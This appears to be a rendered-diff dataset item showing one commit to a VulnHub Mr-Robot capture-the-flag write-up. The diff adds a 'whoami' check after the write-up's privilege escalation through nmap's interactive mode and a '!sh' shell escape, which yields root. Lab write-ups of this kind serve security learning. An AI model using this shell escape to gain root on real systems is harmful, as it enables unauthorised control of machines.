

Before and after one commit to 0x2d-pentest/VulnHub, a Markdown page: Lin Intermediate - Mr-Robot_1/writeup.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

```diff
--- a/Lin Intermediate - Mr-Robot_1/writeup.md
+++ b/Lin Intermediate - Mr-Robot_1/writeup.md
@@ -581,6 +581,8 @@ robot@linux:/tmp$ nmap --interactive
 nmap> !sh
 # id
 uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
+# whoami
+root
 # cd /root
 # ls -la
 total 32
```
